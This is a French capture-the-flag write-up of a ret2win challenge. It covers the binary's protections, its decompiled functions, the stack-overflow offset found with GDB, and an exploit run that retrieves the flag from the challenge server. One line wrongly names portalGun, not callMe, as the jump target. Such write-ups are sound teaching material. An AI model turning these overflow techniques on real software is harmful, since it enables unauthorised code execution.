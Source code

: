 # Pwn0x01

```md
return to win!!!

nc 35.180.44.229 1235
```

On comprends à la description qu'il va s'agir d'un ret2win, vérifions si des sécurités sont activées :

```console
$ checksec --file=task_new
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   77 Symbols	  No	0		3	task_new
```

Visiblement pas de PIE ni de canary. [L'exécutable](./task_new) est fournit, essayons le :

```console
$ ./task_new 
hey Morty give an adress for my portal Gun
AAAA
```

Le programme nous demande une saisie et s'arrête, essayons de le reverse pour mieux le comprendre.

## Analyse statique

Avec Ghidra on retrouve ces trois fonctions :

```C
undefined4 main(void)
{
  ignore_me_init_buffering(&stack0x00000004);
  setvbuf(_stdout,(char *)0x0,2,0);
  puts("hey Morty give an adress for my portal Gun");
  portalGun();
  return 0;
}
```

```C
void portalGun(void)
{
  char local_4c [68];
  
  gets(local_4c);
  return;
}
```

```C
void callMe(int param_1)
{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("No flag contact an admin.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (param_1 == L'\xdeadbeef') {
    fgets(local_50,64,local_10);
    printf(local_50);
  }
  return;
}
```

La fonction `main` ne nous intéresse pas trop elle ne fait qu'appeler `portalGun`, qui elle par contre est vulnérable à un buffer overflow :

```C
  char local_4c [68];
  
  gets(local_4c);
```

Et enfin `callMe` va gentillement aller chercher le flag pour nous :

```C
  local_10 = fopen("flag.txt","r");
```

Puis nous l'affiche à condition de l'appeler avec `0xdeadbeef` en argument :

```C
  if (param_1 == L'\xdeadbeef') {
    fgets(local_50,64,local_10);
    printf(local_50);
  }
```

Il va donc falloir utiliser le buffer overflow de `portalGun` pour appeler `callMe` avec le bon argument.

## Analyse dynamique

Cherchons l'offset nécessaire pour rediriger l'exécution du programme sous GDB :

```gdb
gef➤  disas portalGun 
Dump of assembler code for function portalGun:
   0x080486a5 <+0>:	push   ebp
   0x080486a6 <+1>:	mov    ebp,esp
   0x080486a8 <+3>:	push   ebx
   0x080486a9 <+4>:	sub    esp,0x44
   0x080486ac <+7>:	call   0x8048729 <__x86.get_pc_thunk.ax>
   0x080486b1 <+12>:	add    eax,0x194f
   0x080486b6 <+17>:	sub    esp,0xc
   0x080486b9 <+20>:	lea    edx,[ebp-0x48]
   0x080486bc <+23>:	push   edx
   0x080486bd <+24>:	mov    ebx,eax
   0x080486bf <+26>:	call   0x8048430 <gets@plt>
   0x080486c4 <+31>:	add    esp,0x10
   0x080486c7 <+34>:	nop
   0x080486c8 <+35>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080486cb <+38>:	leave
   0x080486cc <+39>:	ret
End of assembler dump.

gef➤  br *portalGun+39
Breakpoint 1 at 0x80486cc

gef➤  r <<< $(python3 -c 'print("A"*76+"B"*4)')
```

```gdb
──────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x42424242
──────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "task_new", stopped 0x42424242 in ?? (), reason: SIGSEGV
```

Le programme crash car il n'arrive pas à accèder à l'adresse que nous avons injecter : il faudra un offset de 76 bytes.

## Exploit

PIE est désactivé nous pouvons donc utiliser cette addresse de `portalGun` :

```console
gef➤  info func portalGun
All functions matching regular expression "portalGun":

Non-debugging symbols:
0x080486a5  portalGun
```

Et ce [script](./exploit.py) nous permet d'envoyer notre payload à l'aide `pwntools` :

```console
$ python3 exploit.py 
[+] Opening connection to 35.180.44.229 on port 1235: Done

b'StarHack{YOU_WON!!}\n'

[*] Closed connection to 35.180.44.229 port 1235
```